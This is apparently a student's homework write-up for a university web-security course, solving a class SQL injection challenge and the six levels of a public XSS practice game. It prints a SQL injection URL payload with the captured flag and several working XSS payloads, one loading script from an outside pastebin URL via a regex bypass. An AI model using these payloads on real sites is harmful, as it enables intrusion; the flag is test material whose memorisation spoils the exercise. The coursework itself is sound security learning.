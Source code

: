 # Writeup 1 - Web I

Name: Chris Tharratt
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Christopher Tharratt


## Assignment details
This assignment has two parts. It is due by 11/27/19 at 11:59PM.

**There will be late penalty of 5% per day late!**

### Part 1 (40 Pts)

Such a Quick Little, website!

[http://142.93.136.81:5000/](http://142.93.136.81:5000/)

`CMSC389R-{y0u_ar3_th3_SQ1_ninj@}`

Found by exploiting a SQL injection in the URL of the website. Saw that they were using
id=0, 1, 2.. in their URL, which indicates a SQL databse. Using the injection from the 
slides and changing the OR to be || since OR is detected to be a SQL inejection, we 
can then find the flag. 
`http://142.93.136.81:5000/item?id=0'||'1'='1'-- -`

### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

Produce a writeup. We will not take off points for viewing the source code and/or viewing hints, but we strongly discourage reading online write-ups as that defeats the purpose of the homework.

1. `<script>alert('all your scripts are belong to us')</script>` into the search bar. 

2.  `<img src="image.gif" onerror=alert("all your img are belong to us")>` into the status.
This one was a bit tricky since I didn't know much javascript or about the onerror status.

3. `' onerror="alert('all your frame are belone to us')"` into the URL.
Bit trickier, needed the hints and how frames worked. Didn't know that they could have an
onerror event. 

4. `'); alert('all your time are belong to us` into the timer box. 
Needed some hints with this one. Kept trying to utilize the text box to inject some
commands but couldn't get it to work for a while. Found a similar example online to how 
to get it to work.

5. `next=javascript:alert('all your groov are belong to us')` into the URL.
Easier to exploit than some of the others, just needed to know to use javascript: to
execute. 

6. `frame#HTTPS://pastebin.com/raw/xkzNc7Jd` into the URL.
Looking at the source code it was prety easy to avoid the regex by having HTTPS instead 
of https. Using pastebin as an easy vector to write the alert, all I needed to do was to
tell the site to go to that raw pastebin file. 
 

### Format

Part 1 and 2 can be answered in bullet form or full, grammatical sentences.

### Scoring

* Part 1 is worth 40 points
* Part 2 is worth 60 points

### Tips

Remember to document your thought process for maximum credit!

Review the slides for help with using any of the tools or libraries discussed in
class.
